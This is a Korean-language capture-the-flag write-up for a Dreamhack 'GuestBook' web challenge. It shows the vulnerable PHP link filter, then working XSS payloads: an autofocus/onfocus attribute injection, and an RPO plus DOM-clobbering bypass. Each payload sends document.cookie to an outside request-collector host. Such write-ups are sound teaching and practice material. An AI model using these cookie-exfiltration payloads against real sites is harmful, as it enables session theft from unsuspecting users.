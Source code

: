 ## GuestBook
---

```php
<?php
function addLink($content){
  $content = htmlentities($content);
  $content = preg_replace('/\[(.*?)\]\((.*?)\)/', "<a href='$2'>$1</a>", $content);
  PreventXSS($content);
  return $content;
}
?>
```

<br><br>

## Solution
---

문제를 풀다가 풀릴거 같은데 익스플로잇 코드를 못짜니까 너무 화가 났다.

결국에는 문뜩 생각이 나서 풀었는데, onfocus 이벤트와 autofocus 속성을 이용해서 해결할 수 있었다..

<br>

```[a](' autofocus onfocus='javascript:location.href=`http://xauitam.request.dreamhack.games?cookie=`%2bdocument.cookie)```

<br>

근데 풀이를 보면 Dom Clobbering으로도 풀 수가 있었다..

<br>

```javascript
// config.js

window.CONFIG = {
  version: "v0.1",
  main: "/",
  debug: false,
  debugMSG: ""
}

// prevent overwrite
Object.freeze(window.CONFIG);
```

<br>

```html
<!-- GuestBook.php 코드 일부분 -->

<script src="config.js"></script>
<script>
  if(window.CONFIG && window.CONFIG.debug){
    location.href = window.CONFIG.main;
  }
</script> 
```

<br>

DOM Clobbering으로 공격을 진행해보면 아래와 같다.

위의 코드를 보면 ```location.href```를 하려면 조건이 성립해야 하는데, ```window.CONFIG``` 값은 ```Object.freeze``` 메소드로 인해 변경할 수 가 없다.

하지만, 자세히 보면은 ```config.js```가 상대 경로로 불러오고 있음을 알 수 있다.

따라서 경로를 ```/GuestBook.php```가 아니라 ```/GuestBook.php/```로 설정해준다면 기존에 ```localhost/config.js```를 불러오던 것이 ```localhost/GuestBook.php/config.js```를 불러오게 되어서 우회해줄 수 있는 것이다..! **(RPO 취약점)**

<br>

RPO 취약점을 이용해서 방어 코드를 우회하고 DOM Clobbering을 해줄 수 있다.

DOM Clobbering 공격의 핵심은 HTMLCollection을 만들어주는 것이다.

CONFIG의 키에 main과 debug 값을 추가해줘야 한다.

따라서 공격코드는 아래와 같다.

<br>

```
[a](javascript:location.href=`http://bzbxhgx.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='main)
[a](javascript:location.href=`http://bzbxhgx.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='debug)
```

<br>

이렇게 id에 CONFIG, name에 각각 debug와 main을 넣어준다면 console 창에서 window.CONFIG를 했을 때, HTMLCollection이 나오면서 키 값으로 main과 debug가 있음을 알 수 있다.

위의 코드를 ```GuestBook.php/?content=```에서 넣어주면 코드가 실행이 된다!!!!

<br>

```
GuestBook.php/?content=[a](javascript:location.href=`http://bzbxhgx.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='main)%0d%0a[a](javascript:location.href=`http://xauitam.request.dreamhack.games?cookie=`%2bdocument.cookie' id='CONFIG' name='debug)
```
